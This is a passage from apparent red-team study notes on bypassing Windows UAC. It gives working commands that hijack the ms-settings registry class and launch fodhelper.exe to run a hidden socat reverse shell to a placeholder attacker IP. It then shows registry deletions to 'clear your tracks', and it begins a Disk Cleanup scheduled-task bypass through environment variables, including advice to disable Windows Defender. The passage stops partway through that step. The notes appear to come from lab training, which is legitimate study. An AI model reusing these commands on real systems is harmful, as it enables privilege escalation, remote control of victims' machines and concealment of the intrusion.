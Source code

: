 ```C
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
```

Clear your tracks:

```C
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC: Environment Variable Expansion
---
From the previous exploits, we can bypass UAC as most of these apps have the autoElevate flag set on on their manifests. However, if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate

Not hope is lost, in this time you will abuse the scheduled task that can be run by any user but will execute with the highest privileges available to the caller, as this does not trigger the UAC prompt when launched.

### Disk Cleanup Scheduled Task
---
For demonstration: disable Windows Defender then proceed to open Task Scheduler:

![Bypassing UAC-16.png|600](/img/user/cards/red-team/images/Bypassing%20UAC-16.png)

- The task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user.
- **Run with highest privileges** will use the highest privilege security token available to the calling user, a high IL token for an administrator.
- **Note:** this will not work for regular non-admin works as it will execute with medium IL only.

Moving to the **Action and Settings** tabs:

![Bypassing UAC-17.png](/img/user/cards/red-team/images/Bypassing%20UAC-17.png)

The task can be run on-demand, executing the following command when invoked:

```C
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
```

The command depends on environment variable, you might be able to inject commands through them and execute it by starting DiskCleanup task manually.

Overriding the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`:
